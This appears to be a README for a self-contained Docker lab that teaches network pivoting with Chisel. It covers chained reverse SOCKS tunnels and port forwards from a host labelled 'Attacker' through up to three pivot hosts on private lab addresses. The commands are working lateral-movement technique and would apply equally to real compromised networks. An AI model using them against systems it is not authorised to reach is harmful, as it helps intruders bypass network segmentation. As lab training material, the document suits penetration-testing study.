# Pivoting with Chisel - Laboratory

## Table of Contents
- [Setup](#setup)
- [Commands](#commands)
  - [Stop the lab](#stop-the-lab)
  - [Start the lab](#start-the-lab)
  - [Shell into attacker](#shell-into-attacker)
- [Forwarding Remote Pivot Ports/Network to attacker](#forwarding-remote-pivot-portsnetwork-to-attacker)
  - [Attacker - Pivot 1](#attacker---pivot-1)
  - [Attacker - Pivot 1 - Pivot 2](#attacker---pivot-1---pivot-2)
  - [Attacker - Pivot 1 - Pivot 2 - Pivot 3](#attacker---pivot-1---pivot-2---pivot-3)
- [Forwarding Local Attacker Ports to Pivot](#forwarding-local-attacker-ports-to-pivot)
  - [Attacker - Pivot 1](#attacker---pivot-1-1)
  - [Attacker - Pivot 1 - Pivot 2](#attacker---pivot-1---pivot-2-1)
  - [Attacker - Pivot 1 - Pivot 2 - Pivot 3](#attacker---pivot-1---pivot-2---pivot-3-1)


## Setup
wget https://github.com/jpillora/chisel/releases/download/v1.11.5/chisel_1.11.5_linux_amd64.gz -O chisel.gz && gzip -d chisel.gz

| Host | Iface | IP Address |
|---|---|---| 
| Attacker | Iface 1 | 172.28.0.5 |
| Pivot 1 | Iface 1  | 172.28.0.10 |
| Pivot 1 | Iface 2  | 10.10.10.10 |
| Pivot 2 | Iface 1  | 10.10.10.20 |
| Pivot 2 | Iface 2  | 10.10.20.10 |
| Pivot 3 | Iface 1  | 10.10.20.20 |
| Pivot 3 | Iface 2  | 10.10.30.10 |

## Commands

### Stop the lab
docker compose down -v
docker network prune -f

### Start the lab
docker compose up -d

### Shell into attacker
docker exec -it attacker sh

```shell
[Attacker] #curl -X GET 172.28.0.10:1111 --connect-timeout 1
<h1>Welcome to Pivot 1</h1>
[Attacker] #curl -X GET 10.10.10.10:1111 --connect-timeout 1
curl: (28) Connection timed out after 1001 milliseconds
[Attacker] #curl -X GET 10.10.10.20:2222 --connect-timeout 1
curl: (28) Connection timed out after 1000 milliseconds
[Attacker] #curl -X GET 10.10.20.10:2222 --connect-timeout 1
curl: (28) Connection timed out after 1000 milliseconds
[Attacker] #curl -X GET 10.10.20.20:3333 --connect-timeout 1
curl: (28) Connection timed out after 1000 milliseconds
[Attacker] #curl -X GET 10.10.30.10:3333 --connect-timeout 1
curl: (28) Connection timed out after 1001 milliseconds
```

As you can see, the port is public on the first interface, the interface in the same network than attacker, and the other calls goes timeot (control+c).

# Forwarding Remote Pivot Ports/Network to attacker

## Attacker - Pivot 1

In this scenario, we pivot through **Pivot 1** to reach the `10.10.10.0/24` network.



1. **Attacker (172.28.0.5)**:
```bash
./chisel server -p 10000 --reverse &
```

2. **Pivot 1 (172.28.0.10)**:
```bash
./chisel client 172.28.0.5:10000 R:socks &
```

**Verification**:
From the Attacker, you can now access Pivot 2 via the SOCKS proxy (default port 1080):
```bash
proxychains curl -X GET 10.10.10.20:2222
```



## Attacker - Pivot 1 - Pivot 2

In this scenario, we pivot through **Pivot 1** and **Pivot 2** to reach the `10.10.20.0/24` network. We use the `--proxy` flag to chain the second connection through the first.



1. **Attacker (172.28.0.5)**:
```bash
./chisel server -p 10000 --reverse &
```

2. **Pivot 1 (172.28.0.10)**:
```bash
./chisel client 172.28.0.5:10000 R:1080:socks &
```

3. **Pivot 2 (10.10.10.20)**:
```bash
./chisel server -p 10001 --socks5 --reverse &
```

4. **Attacker (172.28.0.5)**:
```bash
# Connect to Pivot 2 through the Pivot 1 SOCKS proxy
./chisel client --proxy socks://127.0.0.1:1080 10.10.10.20:10001 1081:socks &
```

**Verification**:
Configure `proxychains.conf` with `socks5 127.0.0.1 1081`. From the Attacker, you can now access Pivot 3:
```bash
proxychains curl -X GET 10.10.20.20:3333
```



## Attacker - Pivot 1 - Pivot 2 - Pivot 3

In this scenario, we pivot through all three nodes to reach the `10.10.30.0/24` network.



1. **Attacker (172.28.0.5)**:
```bash
./chisel server -p 10000 --reverse &
```

2. **Pivot 1 (172.28.0.10)**:
```bash
./chisel client 172.28.0.5:10000 R:1080:socks &
```

3. **Pivot 2 (10.10.10.20)**:
```bash
./chisel server -p 10001 --socks5 --reverse &
```

4. **Attacker (172.28.0.5)**:
```bash
./chisel client --proxy socks://127.0.0.1:1080 10.10.10.20:10001 1081:socks &
```

5. **Pivot 3 (10.10.20.20)**:
```bash
./chisel server -p 10002 --socks5 --reverse &
```

6. **Attacker (172.28.0.5)**:
```bash
./chisel client --proxy socks://127.0.0.1:1081 10.10.20.20:10002 1082:socks &
```

**Verification**:
Configure `proxychains.conf` with `socks5 127.0.0.1 1082`. From the Attacker, you can now access the internal interface of Pivot 3:
```bash
proxychains curl -X GET 10.10.30.10:3333
```



# Forwarding Local Attacker Ports to Pivot

## Attacker - Pivot 1

In this scenario, we forward port 3000 from the **Attacker** to **Pivot 1**.



1. **Attacker (172.28.0.5)**:
```bash
./chisel server -p 10000 --reverse &
```

2. **Pivot 1 (172.28.0.10)**:
```bash
./chisel client 172.28.0.5:10000 3000:127.0.0.1:3000 &
```

**Verification**:
From **Pivot 1**, you can now access the Attacker's port 3000:
```bash
curl http://127.0.0.1:3000
```




## Attacker - Pivot 1 - Pivot 2

In this scenario, we forward port 3000 from the **Attacker** through two hops to **Pivot 2**.



1. **Attacker (172.28.0.5)**:
```bash
./chisel server -p 10000 --reverse &
```

2. **Pivot 1 (172.28.0.10)**:
```bash
./chisel client 172.28.0.5:10000 R:1080:socks &
```

3. **Pivot 2 (10.10.10.20)**:
```bash
./chisel server -p 10001 --socks5 --reverse &
```

4. **Attacker (172.28.0.5)**:
```bash
# Connect to Pivot 2 through Tunnel 1 and reverse forward port 3000
./chisel client --proxy socks://127.0.0.1:1080 10.10.10.20:10001 R:3000:127.0.0.1:3000 &
```

**Verification**:
From **Pivot 2**, you can now access the Attacker's port 3000:
```bash
wget -qO- http://127.0.0.1:3000
```




## Attacker - Pivot 1 - Pivot 2 - Pivot 3

In this scenario, we forward port 3000 through three hops to **Pivot 3**.



1. **Attacker (172.28.0.5)**:
```bash
./chisel server -p 10000 --reverse &
```

2. **Pivot 1 (172.28.0.10)**:
```bash
./chisel client 172.28.0.5:10000 R:1080:socks &
```

3. **Pivot 2 (10.10.10.20)**:
```bash
./chisel server -p 10001 --socks5 --reverse &
```

4. **Attacker (172.28.0.5)**:
```bash
# SOCKS proxy for Pivot 2 network
./chisel client --proxy socks://127.0.0.1:1080 10.10.10.20:10001 1081:socks &
```

5. **Pivot 3 (10.10.20.20)**:
```bash
./chisel server -p 10002 --socks5 --reverse &
```

6. **Attacker (172.28.0.5)**:
```bash
# Connect to Pivot 3 through Tunnel 2 and reverse forward port 3000
./chisel client --proxy socks://127.0.0.1:1081 10.10.20.20:10002 R:3000:127.0.0.1:3000 &
```

**Verification**:
From **Pivot 3**, you can now access the Attacker's port 3000:
```bash
wget -qO- http://127.0.0.1:3000
```

